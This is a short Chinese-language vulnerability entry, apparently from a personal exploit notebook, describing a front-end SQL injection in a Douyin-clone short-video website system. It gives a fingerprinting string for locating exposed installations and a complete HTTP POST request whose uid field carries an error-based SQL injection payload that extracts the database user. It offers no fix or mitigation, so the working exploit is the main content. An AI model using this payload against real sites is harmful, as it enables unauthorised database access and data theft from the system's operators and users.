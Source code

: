# 仿抖音短视频网站系统index存在前台SQL注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.84);">抖音视频APP/仿9视频APP/短视频功能/原生双端开发，除了直播没有开通，其他功能都是精仿，非会员不能评论，发布视频需要注册，功能模块很多，支付模式微信，支付宝，卡密，用户自己上传带赏金，点赞，关注，留言等功能。仿抖音短视频网站系统index存在前台SQL注入漏洞</font>

# <font style="color:rgba(0, 0, 0, 0.84);">二、影响版本</font>
+ 仿抖音短视频网站系统

# 三、资产测绘
```plain
"/public/index/images/new_logo.png"
```

![1730713571936-be1c3306-5a3d-4f16-b069-cb01334a4d70.png](./img/tqFWhBpuvEPmstSt/1730713571936-be1c3306-5a3d-4f16-b069-cb01334a4d70-416120.png)

# 四、漏洞复现
```plain
POST /index.php?g=appapi&m=auth&a=success HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencode
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close

uid=(SELECT 7052 FROM(SELECT COUNT(*),CONCAT((MID((IFNULL(CAST(USER() AS NCHAR),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

![1730713829601-90fafd7e-a881-41b9-a35b-597eb09093fa.png](./img/tqFWhBpuvEPmstSt/1730713829601-90fafd7e-a881-41b9-a35b-597eb09093fa-070446.png)



> 更新: 2024-11-27 10:00:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uml4ee1m5cxyvkfo>